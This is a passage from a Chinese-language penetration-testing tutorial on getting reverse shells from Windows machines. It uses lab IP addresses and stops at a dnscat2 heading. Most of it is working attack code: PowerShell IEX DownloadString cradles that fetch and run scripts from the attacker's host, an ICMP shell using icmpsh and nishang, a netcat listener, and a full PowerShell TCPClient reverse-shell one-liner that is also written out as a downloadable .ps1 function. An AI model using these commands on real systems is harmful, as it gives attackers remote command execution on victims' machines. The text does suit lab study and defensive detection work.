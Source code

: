 攻击者(192.168.159.134)执行：

```
sysctl -w net.ipv4.icmp_echo_ignore_all=1 #忽略所有icmp包
python icmpsh_m.py 192.168.159.134 192.168.159.138 #开启监听
```

目标机(192.168.159.138)执行： `powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellIcmp.ps1');Invoke-PowerShellIcmp -IPAddress 192.168.159.134`

```` [![](https://p5.ssl.qhimg.com/t01c553ebfac7a01007.png)](https://p5.ssl.qhimg.com/t01c553ebfac7a01007.png)

[![](https://p5.ssl.qhimg.com/t01bbc01cb8019f661b.png)](https://p5.ssl.qhimg.com/t01bbc01cb8019f661b.png)



## 自定义powershell函数反弹shell

利用powershell创建一个Net.Sockets.TCPClient对象，通过Socket反弹tcp shell，其实也是借鉴nishang中的Invoke-PowerShellTcpOneLine.ps1

攻击者(192.168.159.134) 开启监听：<br>`nc -lvp 6666`

目标机执行：

```
powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('192.168.159.134',6666);$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%`{`0`}`;while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)`{`;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2&gt;&amp;1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '&gt; ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()`}`;$client.Close()"
```

[![](https://p1.ssl.qhimg.com/t01d81391bf8fc6700e.png)](https://p1.ssl.qhimg.com/t01d81391bf8fc6700e.png)<br>[![](https://p0.ssl.qhimg.com/t01d4ac654e6c5cd63c.png)](https://p0.ssl.qhimg.com/t01d4ac654e6c5cd63c.png)

或者保存为lltest_tcp.ps1文件<br>`powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/lltest_tcp.ps1');Invoke-lltestTcp`<br>
lltest_tcp.ps1 如下：

```
function Invoke-lltestTcp
`{`
$client = New-Object Net.Sockets.TCPClient('192.168.159.134',6666)
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%`{`0`}`
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
`{`
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
$sendback = (iex $data 2&gt;&amp;1 | Out-String )
$sendback2 = $sendback + 'PS ' + (pwd).Path + '&gt; '
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
$stream.Write($sendbyte,0,$sendbyte.Length)
$stream.Flush()
`}`
$client.Close()
`}`
```



# <a class="reference-link" name="dnscat2%20%E5%8F%8D%E5%BC%B9DNS%20shell"></a>dnscat2 反弹DNS shell
````